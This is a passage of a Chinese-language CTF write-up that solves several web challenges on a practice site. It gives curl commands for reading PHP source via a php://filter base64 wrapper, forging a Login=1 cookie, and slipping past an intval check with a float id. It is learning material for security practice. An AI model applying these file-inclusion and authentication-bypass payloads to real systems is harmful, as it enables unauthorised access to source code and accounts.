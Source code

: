 
貌似执行一下就可以了；解码之后的内容是`phpinfo();flag:nctf{...}`。暂时不清楚这段编码的作用。


## [文件包含](http://4.chinalover.sinaapp.com/web7/index.php)

包含当前页面，使用base64编码避免递归，然后可以再base64解码。

```shell
curl http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

PHP 的文件处理函数允许使用 php scheme 读取自定义的I/O流。

## [Cookie](http://chinalover.sinaapp.com/web10/index.php)

curl的结果中有个Set-Cookie: Login=0，server也许是通过这个Login的值判断有没有登录。这里的提示是cookie和session不一致。

```shell
curl http://chinalover.sinaapp.com/web10/index.php -v -H 'Cookie: Login=1'
```

## [MYSQL](http://chinalover.sinaapp.com/web11/)

提示是robots.txt，可以在robots.txt找到源代码

```shell
curl http://chinalover.sinaapp.com/web11/robots.txt
```

```php
# Source
<?php
if($_GET[id]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
虽然把`id`的值转换为整数类型，但是在比较逻辑里又使用了原来的参数，所以这里可以输入一个浮点数绕过

```shell
curl http://chinalover.sinaapp.com/web11/sql.php?id=1024.1
```

## [GBK Injection](http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1)
